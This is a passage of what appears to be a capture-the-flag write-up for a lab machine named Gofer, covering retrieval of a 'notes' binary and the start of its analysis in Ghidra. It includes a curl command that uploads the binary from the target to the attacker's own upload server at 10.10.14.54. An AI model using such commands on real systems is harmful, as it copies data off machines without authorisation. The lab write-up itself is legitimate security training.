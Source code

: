 So i decided to upload this binary to my machine for further inspection. First start the python uploadserver

```
python3 -m uploadserver 80
```
Next use the following curl command to upload the binary

```
curl -X POST http://10.10.14.54/upload -F files=@notes
```
### Code analysis
Now that we have the binary we can open this binary in ghidra to get an idea of what is going on inside. Open ghidra and create a new project. Then next in the file menu import our notes binary file. Then click ok or yes on all the following windows the default settings are fine.

![Adding](/assets/img/Gofer/Gofer_11.png)

Next double click the notes binary in this window and you will open the code browser. Then when you look for the main function you can let Ghidra create a C representation of the code.

```
void main(void)

{
  __uid_t _Var1;
  int iVar2;
  undefined4 local_1c;
  void *local_18;
  void *local_10;
  
  local_1c = 0;
  local_10 = (void *)0x0;
  local_18 = (void *)0x0;
  do {
    puts(
```